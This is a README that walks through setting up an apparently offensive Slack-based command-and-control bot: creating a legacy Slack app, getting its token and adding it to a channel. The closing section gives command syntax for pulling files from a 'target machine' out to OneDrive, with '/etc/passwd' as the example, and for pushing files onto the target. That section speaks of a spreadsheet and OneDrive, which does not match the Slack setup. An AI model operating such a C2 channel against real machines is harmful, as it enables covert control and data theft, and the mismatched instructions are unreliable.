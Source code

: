 # Slack C2 Bot Setup

## Requirements

- Slack account w/ permissions to create a Slack App
- Slack workspace

## Creating the Slack App

1. To create a legacy app that uses RTM go to the following link:
  <https://api.slack.com/apps?new_classic_app=1>

1. If you have a workspace created it will take you to a page with a "Create a Slack App (Classic) box.
  Give you app a name.

1. Select the Workspace you want to host it in
 [image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690913220627_0.png)

1. Select Bots
 [image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690913749185_0.png)

1. Select Add Legacy Bot User
 [image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690913799922_0.png)

1. Fill in your App info and click Add
 ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690913871192_0.png)

1. Click Basic Information, then Install to Workspace
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690913974417_0.png)

1. Click Allow on the Bot App
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690914005675_0.png)

1. Scroll down to Oauth & Permissions and copy Token and keep it handy, we'll use it later in the bot config
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690914500790_0.png)

1. Under Settings > Basic Information > Building Apps for Slack if there isn't a green checkmark, click on "Install your app" and click Install to Workspace
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690915501124_0.png)

## Adding the Slack App

1. Create a Channel or select the channel you want to add it to and Select "View channel details"
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690916630739_0.png)

1. Select Integrations > Add apps
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690916695637_0.png)

1. Click on Add next to the app you created
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690916747338_0.png)

1. Setup is complete (You should see a message stating your app was added to the channel)
  ![image.png](https://raw.githubusercontent.com/TechRinger/media/main/images/image_1690916837872_0.png)

## Command execution

1. The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.

1. Enter the command in column **A** and the output will be added to column **B**

### Upload File

**NOTE**  
"upload" is the string configured in the bot config file.

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none

upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

**NOTE**  
DO **NOT** add spaces around semi-colons.

### Download File

**NOTE**  
"download" is the string configured in the bot config file.

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

**NOTE**  
DO **NOT** add spaces around semi-colons.
